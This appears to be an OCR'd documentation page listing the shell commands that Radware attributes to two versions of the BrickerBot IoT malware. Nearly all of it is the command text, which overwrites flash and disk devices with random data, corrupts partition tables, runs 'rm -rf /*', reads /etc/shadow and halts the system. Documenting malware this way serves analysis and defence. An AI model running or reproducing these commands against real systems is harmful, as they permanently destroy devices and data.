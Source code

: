Radware matches the following commands to versions of BrickerBot:

BrickerBot.1
```bash
fdisk -l
busybox cat /dev/urandom >/dev/mtdblock0 &
busybox cat /dev/urandom >/dev/sda &
busybox cat /dev/urandom >/dev/mtdblock10 &
busybox cat /dev/urandom >/dev/mmc0 &
busybox cat /dev/urandom >/dev/sdb &
busybox cat /dev/urandom >/dev/ram0 &
fdisk -C 1 -H 1 -S 1 /dev/mtd0
w
fdisk -C 1 -H 1 -S 1 /dev/mtd1
w
fdisk -C 1 -H 1 -S 1 /dev/sda
w
fdisk -C 1 -H 1 -S 1 /dev/mtdblock0
w
route del default;iproute del default;ip route del default;rm -rf /* 2>/dev/null &
sysctl -w net.ipv4.tcp_timestamps=0;sysctl -w kernel.threads-max=1
halt -n -f
reboot
```

BrickerBot.2
```bash
w
uname -a
ls -alF /etc/
cat /etc/passwd
cat /etc/shadow
cat /proc/version
su root
uptime
cat /etc/motd
ls -al /sbin/

fdisk -l
df
cat /proc/mounts

dd if=/dev/urandom of=/dev/sda &
dd if=/dev/urandom of=/dev/sda1 &
dd if=/dev/urandom of=/dev/sda2 &
dd if=/dev/urandom of=/dev/sda3 &
dd if=/dev/urandom of=/dev/sda4 &
dd if=/dev/urandom of=/dev/sdb &
dd if=/dev/urandom of=/dev/mtd0 &
dd if=/dev/urandom of=/dev/mtd1 &
dd if=/dev/urandom of=/dev/mtd2 &
dd if=/dev/urandom of=/dev/mtd3 &
dd if=/dev/urandom of=/dev/mtdblock0 &
dd if=/dev/urandom of=/dev/mtdblock1 &
dd if=/dev/urandom of=/dev/mtdblock2 &
dd if=/dev/urandom of=/dev/mtdblock3 &
dd if=/dev/urandom of=/dev/mtdblock4 &
dd if=/dev/urandom of=/dev/mtdblock5 &
dd if=/dev/urandom of=/dev/mtdblock6 &
dd if=/dev/urandom of=/dev/mtdblock7 &
dd if=/dev/urandom of=/dev/hda1 &
dd if=/dev/urandom of=/dev/hdb1 &
dd if=/dev/urandom of=/dev/root &
dd if=/dev/urandom of=/dev/ram0 &
dd if=/dev/urandom of=/dev/mmcblk0 &
```